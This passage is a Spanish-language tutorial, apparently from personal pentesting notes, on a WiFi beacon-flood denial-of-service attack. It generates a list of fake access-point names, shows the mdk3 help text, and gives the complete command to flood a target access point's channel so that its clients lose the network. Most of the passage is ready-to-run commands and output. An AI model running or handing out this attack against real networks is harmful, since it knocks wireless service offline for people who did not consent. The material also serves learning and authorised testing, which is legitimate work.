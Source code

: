 - Con la herramienta `mdk3` podemos generar este ataque esto lo que consigue es generar muchos paquetes de tipo **Beacon** vamos a generar demasiados **AP** en el mismo canal donde se sitúa el **AP** que tenemos para que la red se quede inoperativa para los clientes.

- Vamos a generar los nombres de los **AP** que vamos a generar.

```bash
❯ for i in $(seq 1 10); do echo "WifiFree$i" >> names.txt; done
❯ catn names.txt
WifiFree1
WifiFree2
WifiFree3
WifiFree4
WifiFree5
WifiFree6
WifiFree7
WifiFree8
WifiFree9
WifiFree10
```

- Ahora con la herramienta `mdk3` vamos a hacer el siguiente ataque. 

```bash
❯ mdk3 --help

MDK 3.0 v6 - "Yeah, well, whatever"
by ASPj of k2wrlz, using the osdep library from aircrack-ng
And with lots of help from the great aircrack-ng community:
Antragon, moongray, Ace, Zero_Chaos, Hirte, thefkboss, ducttape,
telek0miker, Le_Vert, sorbo, Andy Green, bahathir and Dawid Gajownik
THANK YOU!

MDK is a proof-of-concept tool to exploit common IEEE 802.11 protocol weaknesses.
IMPORTANT: It is your responsibility to make sure you have permission from the
network owner before running MDK against it.

This code is licenced under the GPLv2

MDK USAGE:
mdk3 <interface> <test_mode> [test_options]

Try mdk3 --fullhelp for all test options
Try mdk3 --help <test_mode> for info about one test only

TEST MODES:
b   - Beacon Flood Mode
      Sends beacon frames to show fake APs at clients.
      This can sometimes crash network scanners and even drivers!
```

- Ahora simplemente le pasamos el nombre del fichero donde estan los nombres de los **AP** y el canal donde se situa el **AP** que queremos atacar y comenzamos el ataque.

```bash
❯ mdk3 wlan0mon b -f names.txt -a -s 1000 -c 2
```
